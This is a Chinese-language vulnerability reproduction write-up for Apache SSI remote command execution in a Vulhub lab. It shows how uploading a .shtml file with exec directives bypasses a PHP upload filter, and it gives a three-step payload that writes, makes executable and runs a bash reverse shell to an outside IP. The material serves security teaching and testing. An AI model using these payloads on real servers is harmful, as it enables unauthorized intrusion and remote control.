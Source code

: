 # Apache SSI 远程命令执行漏洞

## 漏洞描述

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 环境搭建

Vulhub运行一个支持SSI与CGI的Apache服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

![image-20220221190853964](images/202202211908075.png)

成功上传，然后访问shell.shtml，可见命令已执行，成功查看当前目录：

![image-20220221191023391](images/202202211910477.png)

创建反弹shell，依次上传并访问shell.shtml（一共三次）

```
# 第一次写入webshell文件
<!--#exec cmd="echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1' > /var/www/html/shell.sh"-->
# 第二次修改webshell权限
<!--#exec cmd="chmod +x /var/www/html/shell.sh"-->
# 第三次执行webshell
<!--#exec cmd="/bin/bash /var/www/html/shell.sh"-->
```

成功接收反弹shell

![image-20220221191821240](images/202202211918306.png)

